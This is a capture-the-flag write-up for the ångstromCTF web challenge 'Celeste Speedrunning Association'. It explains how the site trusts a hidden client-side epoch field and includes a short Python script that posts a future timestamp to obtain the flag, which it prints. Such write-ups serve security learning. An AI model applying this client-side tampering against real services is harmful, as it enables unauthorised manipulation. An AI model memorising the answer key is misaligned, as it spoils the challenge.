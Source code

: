 ```yaml
---
author: "Asad Ullah"
title: "Celeste Speedrunning Association - ångstromCTF"
description: 
summary: Write-up on web challenge Celeste Speedrunning Association.
date: 2023-04-27T00:04:24+05:00
Section: write-ups
categories:
- writeup
- ctftime.org
tags:
- angstormctf
- web
- epoch
- flag

draft: false

---
```


{{< 
ctftime 
name="Celeste Speedrunning Association" 
difficulty="Easy"  
points="20"
category="Web"
>}}

&nbsp;

&nbsp;


## Description

I love Celeste Speedrunning so much!!! It's so funny to watch!!!

[Here's my favorite site!](https://mount-tunnel.web.actf.co/)

## Approach

Upon examining the Source Code, it appears that the website is utilizing a hidden input field called "start" that utilizes the `Unix` epoch time to verify the present time.

![Untitled](/write-ups/ctftime/angstorm/source.webp)

Once the button is clicked, the server calculates the duration from the start time to when the request is received by the server. If the duration is less than 0 sec the flag will be displayed. However, this can only be accomplished by modifying the epoch value to a future time (higher value), then send the data to server

This can be done using a simple Python script.

```python
import requests

url = 'https://mount-tunnel.web.actf.co/submit'
data = {'start': '16825199999'}

response = requests.post(url, data=data)

print(response.text)
```

![Untitled](/write-ups/ctftime/angstorm/flag.webp)

&nbsp;

---

**Flag: `actf{wait_until_farewell_speedrun}`**

---

&nbsp;

&nbsp;
